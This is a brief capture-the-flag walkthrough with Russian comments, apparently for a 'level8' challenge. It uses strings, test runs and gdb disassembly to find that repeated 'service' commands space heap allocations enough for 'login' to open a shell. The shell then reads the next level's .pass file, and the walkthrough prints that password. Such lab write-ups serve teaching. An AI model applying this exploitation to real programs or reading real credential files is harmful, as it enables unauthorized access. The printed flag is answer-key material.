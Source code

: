 $> strings level8 | less
```
[...]
%p, %p
auth
reset
service
login
/bin/sh
Password:
[...]
```
# видим несколько интересных строк, попробуем их ввести
```
$> ./level8
(nil), (nil)
> auth
0x804a008, (nil)
> service
0x804a008, 0x804a018
> login
Password:
> auth
0x804a028, 0x804a018
> auth
0x804a038, 0x804a018
```
# когда мы пишем "auth" и "service", два адреса обновляются на 0x10 от последнего записанного адреса
# Посмотрим, сможем ли мы найти больше с помощью gdb
```
gdb> disass main
[...]
   0x08048625 <+193>:	cmp    eax,0x1e
[...]
```
# Мы видим, что cmp сделан со значением 0x1e == 31
# Посмотрим, что будет, если мы сделаем разницу между адресами 'auth' и 'service' 0x20 == 32
```
$> ./level8

> service
0x804a008, 0x804a018
> service
0x804a008, 0x804a028
> login
```
$ cat /home/user/level9/.pass
>c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

# ╮(￣_￣)╭